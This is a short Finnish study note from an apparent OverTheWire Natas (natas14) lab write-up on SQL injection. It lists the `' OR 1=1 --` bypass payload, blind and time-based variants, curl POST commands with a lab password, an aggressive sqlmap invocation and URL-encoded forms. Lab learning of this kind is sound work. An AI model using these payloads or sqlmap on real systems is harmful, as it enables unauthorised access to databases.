 Periaatteessa tämä `' OR 1=1 --` - voi toimia pienenä lunttilappuna ja pikaisella koodina.

Jos taso menee vaikeammaksi niin lomake kenttään käytä suodatusta  `'` - merkkiä 

Muita vaiheita tulee mukaan:
- Blind SQLi (testataan vaikka `AND 1=1` vs. `AND 1=2` ja katsotaan käyttäytyminen)
- Time-based SQLi (esim. `SLEEP(5)`-pohjaiset injektiot)
- Automatisointi (sqlmap) kun payloadit monimutkaistuvat

## SQL injektio kali linux:issa
Tämä pätee `curl`- komento POST-pyyntö SQL-injektiolla:

`curl "http://target.site/login?username=admin' OR 1=1 --&password=whatever"`

```
curl -X POST http://target.site/login \
  -d "username=admin' OR 1=1 --&password=whatever"
```

Tämä on alempi komennon kuvausta tarkennuksena: 
-X POST: tehdään POST-pyyntö
-d: data, joka normaalisti tulisi lomakkeesta:
--compressed: pakkaustuki, joskus tarpeen Overthewire-labroissa
```
curl -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 \
  -X POST "http://natas14.natas.labs.overthewire.org/" \
  -d "username=admin\" OR 1=1 --&password=irrelevant" \
  --compressed
```


**Toinen vinkki**: tarkalleen mitä kysely tekee: 
```
curl -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 \
  -X POST "http://natas14.natas.labs.overthewire.org/?debug=1" \
  -d "username=admin\" OR 1=1 --&password=irrelevant"
```


**Sqlmap** - joka antaa automaattisesti erilaisia sql injektio, et tunnistaa classic/blind/time-based ja union pohjaisia, jne.
`sqlmap -u "http://target.site/login?username=admin&password=test" --batch --risk=3 --level=5`

## Selaimen SQL injektio

` " ` - kokeilin toista erikoismerkkiä, mutta ainakin toimii ja antoi seuraavan vihjeensä, sekä muutama testi ainakin näyttävän toimii.

```
Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, bool given in /var/www/natas/natas14/index.php on line 24
```

Kun käytät SQL-injektiota URLin kautta, sinun täytyy URL-enkoodata erikoismerkit, jotta ne menevät palvelimelle oikein — muuten selain tai palvelin tulkkaa ne väärin tai estää pyynnön kokonaan.

`' OR 1=1 --`- on enkoodattuna muodossa `%27%20OR%201%3D1%20--`
